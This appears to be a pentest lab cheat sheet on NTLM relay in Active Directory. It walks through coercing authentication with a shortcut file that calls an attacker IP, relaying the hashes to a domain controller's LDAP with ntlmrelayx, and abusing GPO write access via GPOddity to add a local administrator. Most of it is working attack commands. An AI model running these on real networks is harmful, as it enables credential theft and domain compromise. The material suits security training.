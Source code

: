 # NTLM Relay

When capturing a [NTLMv1/2](https://www.vaadata.com/blog/understanding-ntlm-authentication-and-ntlm-relay-attacks/) hashes with tools like Responder, attackers have two options:

* crack it to retrieve cleartext passwords
* relay it to gain code execution on a target

{% hint style="warning" %}
The relayed user must have privilege on the target.
{% endhint %}

### Valid targets <a href="#valid-targets" id="valid-targets"></a>

In order to relay hashes, we must have valid targets. **Valid targets are machines with SMB Signing disabled**.

SMB Signing is disabled by default on every Windows OS, except Windows Server.

To create a list file of valid targets, use [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec):

```bash
cme smb <networkIP>/<cidr> --gen-relay-list relayTargets.txt
```

### Relaying hashes <a href="#relaying-hashes" id="relaying-hashes"></a>

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption><p>Found from <a href="https://aas-s3curity.gitbook.io/cheatsheet/internalpentest/active-directory/exploitation/exploit-without-account/smb-relay">here</a></p></figcaption></figure>

Create a shortcurt lnk file with the below content  and place it inside th shared AI folder.

```powershell
powershell "iwr 172.16.x.x -UseDefaultCredentials"
```

Run the below comamnd in the WSL Linux to relay the credentials to the DC.

```bash
sudo ntlmrelayx.py -t ldap://dcorp-dc.dollarcorp.moneycorp.local --http-port '80,8080' -i --no-smb-server
```

Use netcat to connect to the interactive session and use the below to add the user to have write access to the GPO.

<pre class="language-aspnet"><code class="lang-aspnet"><strong>write_gpo_dacl studentx {0BF8D01C-1F62-4BDC-958C-57140B67D147}
</strong></code></pre>

Now malicious GPO template can injected through GPOddity - [https://github.com/synacktiv/GPOddity](https://github.com/synacktiv/GPOddity)

<pre class="language-bash"><code class="lang-bash"># In linux machine change to the tool directory
<strong>cd /mnt/c/AD/Tools/GPOddity
</strong><strong># Use the GPOddity
</strong>sudo python3 gpoddity.py --domain dollarcorp.moneycorp.local --gpo-id '0BF8D01C-1F62-4BDC-958C-57140B67D147' --username studentx --password xyzdsfsddsf --dc-ip 172.16.2.1 --command "net localgroup administrators studentx  /add" --rogue-smbserver-ip 172.16.100.x --rogue-smbserver-share 'std-anything' --smb-mode none 
# Create a share with the name mentioned above and host the template. Run with admin cmd
net share std-anything=C:\AD\Tools\ GPOddity\GPT_out
# Grant everyone permission to those templates
icacls "C:\AD\Tools\GPOddity\GPT_out" /grant Everyone:F /T
# Verify the persmission with
Get-DomainGPO # Check gpcfilesyspath and whenchanged
winrs -r:dcorp-ci cmd /c "set computername &#x26;&#x26; set username"
</code></pre>

